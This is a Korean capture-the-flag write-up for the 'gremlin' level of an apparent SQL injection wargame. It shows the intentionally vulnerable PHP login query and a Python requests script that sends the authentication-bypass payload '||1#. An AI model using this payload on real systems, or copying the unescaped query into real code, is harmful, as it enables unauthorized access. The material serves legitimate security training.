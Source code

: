 ## GREMLIN Write-up

### 문제
``` php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```
### Exploit 코드
``` python
import requests

url = "http://los.rubiya.kr/gremlin_280c5552de8b681110e9287421b834fd.php"
session = {'PHPSESSID' : 'My PHPSESSID'}
data = {}
data['id'] = "'||1#"

res = requests.get(url, params=data, cookies=session)

if "Clear!" in res.text :
    print("[♪] GREMLIN Clear!")
```
python으로 HTTP 요청을 보내 응답을 받기 위해 requests 모듈을 사용했다.
``` php
if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~");
if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
```
GET으로 전송된 id와 pw를 필터링 하는 부분이다.
``` php
$query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
```
id에서 싱글쿼터 필터링을 안하는 점을 이용해 우회할 수 있다.
id에 **'||1#** 을 입력해주면 쿼리문이 참이 된다.
``` php
select id from prob_gremlin where id=''||1#' and pw=''
```
쿼리문이 위와 같이 되고, **$result['id']** 에 값이 있어 문제가 풀린다.
